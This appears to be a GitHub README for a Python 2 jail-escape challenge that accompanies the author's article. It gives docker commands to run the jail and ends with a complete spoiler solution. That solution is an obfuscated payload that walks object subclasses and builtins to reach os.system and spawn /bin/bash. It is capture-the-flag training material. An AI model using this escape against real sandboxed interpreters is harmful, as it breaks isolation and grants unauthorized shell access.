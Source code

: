 # Article Example Pyjail

This pyjail is an example for my article on [my website](https://driikolu.fr) 

## How to launch it

First of all you must build the docker
```bash
$ docker build -t pyjail .
```

Then, you can run it
```bash
$ docker run -ti pyjail /root/jail.py
```

## What must you do

The objective of this jail is to get a shell on the docker.

Have fun :)


## Solution

**_DO NOT READ IF YOU DON'T WANT TO BE SPOILED_**
Here is only the succession of commands that I used to solved it :

```python2
for i in dir(dir()):
	x=dir(dir()).index(i)
un=x.__div__(x)
deux=un.__add__(un)
quatre=deux.__add__(deux)
onze=x.__div__(quatre)
wanted=x.__add__(onze).__add__(quatre)
warnings=().__class__.__base__.__subclasses__().pop(wanted)()
imp=warnings._module.__builtins__.values().pop(onze.__mul__(onze.__sub__(un)).__sub__(un))
moinsdeux=un.__sub__(deux).__sub__(un)
neededo_s=dir(imp).pop(moinsdeux.__sub__(un))
o=neededo_s.__getitem__(moinsdeux.__mul__(deux))
s=neededo_s.__getitem__(deux)
o_s=imp(o.__add__(s))
nbsy_s=onze.__mul__(onze.__add__(deux)).__add__(un)
s_ys=o_s.__dict__.values().pop(nbsy_s)
needed=o_s.__file__
slash=needed.__getitem__(quatre)
b=needed.__getitem__(quatre.__add__(deux).__add__(un))
i=needed.__getitem__(quatre.__add__(deux))
n=needed.__getitem__(onze.__add__(un).__add__(deux))
a=dir(o_s).pop(moinsdeux.__sub__(un)).__getitem__(un)
s=needed.__getitem__(deux)
h=needed.__getitem__(onze.__add__(un))
cmd=slash.__add__(b).__add__(i).__add__(n).__add__(slash).__add__(b).__add__(a).__add__(s).__add__(h)
s_ys(cmd)
```